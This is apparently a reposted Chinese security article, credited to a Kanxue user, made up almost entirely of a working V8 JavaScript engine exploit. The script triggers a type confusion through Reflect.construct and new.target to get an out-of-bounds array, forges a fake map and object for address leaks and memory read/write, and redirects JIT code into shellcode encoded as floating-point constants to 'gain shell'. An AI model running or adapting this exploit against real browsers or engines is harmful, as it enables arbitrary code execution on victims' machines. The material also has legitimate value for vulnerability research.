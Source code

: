 ```
var buf = new ArrayBuffer(8);var f32 = new Float32Array(buf);var f64 = new Float64Array(buf);var u8 = new Uint8Array(buf);var u16 = new Uint16Array(buf);var u32 = new Uint32Array(buf);var u64 = new BigUint64Array(buf);function lh_u32_to_f64(l,h){    u32[0] = l;    u32[1] = h;return f64[0];}function f64_to_u32l(val){    f64[0] = val;return u32[0];}function f64_to_u32h(val){    f64[0] = val;return u32[1];}function f64_to_u64(val){    f64[0] = val;return u64[0];}function u64_to_f64(val){    u64[0] = val;return f64[0];}function u64_to_u32_lo(val){    u64[0] = val;return u32[0];}function u64_to_u32_hi(val){    u64[0] = val;return u32[1];}function trigger_gc(){new Array(0x7fe00000);}function stop(){// %SystemBreak();console.log("Press Enter to continue...");readline();}function p(arg){    %DebugPrint(arg);}function spin(){while(1){};}function hex(str){return str.toString(16).padStart(16,0);}function logg(str,val){console.log("[+] "+ str + ": " + "0x" + hex(val));}// gain shellconst shellcode = () => {return [1.9553825422107533e-246,1.9560612558242147e-246,1.9995714719542577e-246,1.9533767332674093e-246,2.6348604765229606e-284];}for(let i = 0; i< 40000; i++){shellcode();}var x = Array;class Base {}class Derived extends Base {constructor() {    x = new.target;super();  }}function construct() {var res = Reflect.construct(Derived, [], x);return res;}for (let i = 0; i < 2000; i++) construct();trigger_gc();trigger_gc();var oob_array = construct();oob_array = construct();// p(oob_array);// console.log(oob_array.length);var confused_element_addr = 0x219+7;var element_addr = 0x2423e9 - 1;var element_addr_start = element_addr + 8;var fake_map_addr = element_addr + 0x1000;var fake_object_addr = element_addr + 0x2000;var saved_fake_object_addr = element_addr + 0x100;logg("confused_element_addr", confused_element_addr);logg("element_addr", element_addr);logg("element_addr_start", element_addr_start);logg("fake_map_addr", fake_map_addr);logg("fake_object_addr", fake_object_addr);new Array(0x7f00).fill({});var victim_array = new Array(0x7f00).fill({});// p(victim_array);oob_array[(fake_map_addr - confused_element_addr)/8] = u64_to_f64(0x2c04040400000061n);oob_array[(fake_map_addr - confused_element_addr)/8 + 1] = u64_to_f64(0x0a0007ff11000842n);oob_array[(fake_object_addr - confused_element_addr)/8] = lh_u32_to_f64(fake_map_addr+1,0x0);oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(0x1000,0x1000);oob_array[(saved_fake_object_addr - confused_element_addr)/8] = lh_u32_to_f64(fake_object_addr+1,fake_object_addr+1);var fake_object = victim_array[(saved_fake_object_addr - element_addr_start)/4];// console.log(typeof fake_object);// p(fake_object);function addressOf(obj){    victim_array[0] = obj;return u64_to_u32_lo(f64_to_u64(oob_array[(element_addr_start - confused_element_addr)/8]));}// p(shellcode);var shellcode_addr = addressOf(shellcode);oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(shellcode_addr - 8 + 0x18,0x1000);var code_addr = u64_to_u32_lo(f64_to_u64(fake_object[0]));oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(code_addr - 8 + 0x10,0x1000);var ins_base = (f64_to_u64(fake_object[0]));var rop_addr = ins_base + 0x56n;fake_object[0] = u64_to_f64(rop_addr);logg("shellcode_addr", shellcode_addr);logg("code_addr", code_addr);logg("ins_base", ins_base);logg("rop_addr", rop_addr);// stop();shellcode();// spin();
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n703ts6IibBxGbZcVfhLIIfSbZQAJLhSECibWXGYzSjofCZ5yGgTdtSmjw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
# 参考文章见『阅读原文』  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n7ZmqibnedCItcY6xwAIAQ2KHEdEtITux5ibtpgFViaVhiacZ1FlNtSKdP6A/640?wx_fmt=png&from=appmsg "")  
  
  
看雪ID：  
flyyyy  
  
https://bbs.kanxue.com/user-home-971428.htm  
  